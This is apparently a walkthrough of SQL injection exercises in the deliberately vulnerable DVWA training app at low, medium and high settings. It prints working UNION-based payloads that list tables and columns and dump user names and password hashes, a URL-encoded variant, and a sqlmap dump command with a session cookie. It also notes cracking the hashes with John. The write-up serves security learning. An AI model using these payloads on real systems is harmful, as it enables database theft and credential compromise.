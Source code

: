 # SQL Injection - Low/Medium/High/Impossible


## Low/Medium/High

Using the other command injection we can find out the SQL version. For low difficulty, we can run `1' OR '1' = 1 #` to see the database. We can also dump, or execute other SQL statements. We can automate this with `sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=l8r5qn313r0pndajuv2thmh9k4" --dump -D mysql -T user"` but to do this without relying on tools.

```
1' and 1=1 union select null, table_name from information_schema.tables#    gives us information about the tables, table 'users' is the one of interests

1' and 1=1 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #  gets all columns of table users

1' and 1=1 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #    now we can use the columns to get the one of interest 'password'
```

All we do now is crack this using John as they are hashed. We put them in the format user:password, one for each line, in a text file.

On medium difficulty, it removes some characters `mysql_real_escape_string($id);` most notably the single quotes that we used for our exploitation. However, it still doesn't pose a problem, we can remove the single quote and it will still work fine. I ran Burp (or any HTTP interceptor tools like Tamper) and changed the parameter to `1%20and%201%3d0%20union%20select%20null,%20concat(first_name,0x0a,last_name,0x0a,user,0x0a,password)%20from%20users%20#`. Burp automatically encodes the space as html entities %20.

On high difficulty, we will try a slight variation of low:

```
1' and 1=1 union select null, table_name from information_schema.tables#    gives us information about the tables, table 'users' is the one of interests

1' and 1=1 union select null, column_name from information_schema.columns#

1' and 1=1 union select user, password from users#
```
